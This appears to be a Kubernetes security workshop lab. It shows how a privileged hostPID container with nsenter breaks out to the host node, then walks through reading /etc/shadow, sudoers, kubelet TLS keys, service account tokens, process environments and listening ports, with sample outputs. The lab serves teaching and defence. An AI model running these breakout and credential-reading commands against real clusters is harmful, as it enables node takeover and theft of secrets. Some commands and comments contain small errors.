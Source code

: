 # Privileged container

A privileged container is a container that has all the capabilities of the host machine, which lifts all the limitations regular containers have. Practically, this means that privileged containers can do almost every action that can be performed directly on the host. Attackers who gain access to a privileged container, or have permissions to create a new privileged container (by using the compromised pod’s service account, for example), can get access to the host’s resources.

## Quick Start

1. Run the following command to deploy the privilege container

   ```bash
   kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--ipc=/proc/1/ns/ipc","--net=/proc/1/ns/net","--uts=/proc/1/ns/uts","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
   ```

## File System Isolation Breakout

1. Inspect sensitive files and folders on the compromised node

   ```bash
   # Contains the hashed passwords for all users on the system
   cat /etc/passwd
   # Contains the hashed passwords for all users on the system
   cat /etc/shadow
   # Similar to /etc/shadow, but for group account passwords
   cat /etc/gdshadow
   # Defines privileges for users and groups regarding the use of sudo
   cat /etc/sudoers
   ls /etc/sudoers.d/
   # The home directory of the root user
   ls /root
   # The home folders of all users in the system
   ls /home
   ```

1. Identify in which node the privilege container is currently running

   ```bash
   # node name would usually be on the /etc/hosts file
   cat /etc/hosts
   # node name would be passed via the --hostname-override flag in kube-proxy 
   ps -aux | grep "kube-proxy"
   ```

1. Inspect interesting files and folders that belong to the `kubelet` process

   ```bash
   # kubelet configuration
   cat /var/lib/kubelet/config.yaml
   # kubelet client and server tls keys
   ls -lhra /var/lib/kubelet/pki
   # list pods managed by kubelet
   ls -lhra /var/lib/kubelet/pods
   ```

1. Inspect the running containers virtual file systems under the `io.containerd.snapshotter.v1.overlayfs` folder

   ```bash
   ls -lhra /var/lib/containerd/io.containerd.snapshotter.v1.overlayfs
   ```

1. Inspect the mounted volumes and secrets for a particular pod

   > Where $PODID is the uuid of a pod

   ```bash
   # list mounted volumes
   ls -lhra /var/lib/kubelet/pods/$PODID/volumes
   # display the service account token
   cat -lhra /var/lib/kubelet/pods/$PODID/volumes/kubernetes.io~projected/kube-api-access-t4spf/token
   ```

1. Inspect the logs for a particular container

   ```bash
   # list log files for all containers
   ls -lhar /var/log/containers
   # display logs for a particular container, where $CONTAINERID is the filename:
   cat /var/log/containers/{$CONTAINERID}.log
   ```

## Processes Isolation Breakout

1. Run the `top` or `ps -aux` commands and look for interesting processes such as `kubelet`, `containerd` and `systemd`

1. Inspect the environment variables for those privileged processes using the `cat` command:

    ```bash
    # `$PID` is the ID of the `kubelet`, `containerd` or `systemd` processes
    cat /proc/$PID/environ
    ```

    Example output:

    ```bash
    # ie: cat /proc/235/environ
    HTTPS_PROXY=HTTP_PROXY=LANG=C.UTF-8NO_PROXY=PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binINVOCATION_ID=047f52a1d2854c73b39863c31edb2639JOURNAL_STREAM=8:243012KUBELET_KUBECONFIG_ARGS=--bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.confKUBELET_CONFIG_ARGS=--config=/var/lib/kubelet/config.yamlKUBELET_KUBEADM_ARGS=--container-runtime-endpoint=unix:///run/containerd/containerd.sock --node-ip=172.19.0.5 --node-labels= --pod-infra-container-image=registry.k8s.io/pause:3.9 --provider-id=kind://docker/workshop-cluster/workshop-cluster-worker2KUBELET_EXTRA_ARGS=--runtime-cgroups=/system.slice/containerd.service
    ```

    From the above configuration identify the `Node IP` and the `kubelet.conf` configuration file

## Network Isolation Breakout

1. Run the `ss` command to list all current listening sockets and network information for the compromised node:

   ```bash
   ss -nltp
   ```

   Example output:

   ```bash
   # ss -nltp
   State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
   LISTEN 0      4096      127.0.0.11:38803      0.0.0.0:*
   LISTEN 0      4096       127.0.0.1:41225      0.0.0.0:*    users:(("containerd",pid=105,fd=10))
   LISTEN 0      4096       127.0.0.1:10248      0.0.0.0:*    users:(("kubelet",pid=234,fd=17))
   LISTEN 0      4096       127.0.0.1:10249      0.0.0.0:*    users:(("kube-proxy",pid=384,fd=11))
   LISTEN 0      4096               *:10250            *:*    users:(("kubelet",pid=234,fd=25))
   LISTEN 0      4096               *:10256            *:*    users:(("kube-proxy",pid=384,fd=8))
   ```

End the lab by `<ctrl-c>` from the privileged container

## Resources

- <https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet/>
- <https://medium.com/nttlabs/the-internals-and-the-latest-trends-of-container-runtimes-2023-22aa111d7a93>
- <https://github.com/shubheksha/kubernetes-internals>
- <https://man7.org/linux/man-pages/man1/nsenter.1.html>
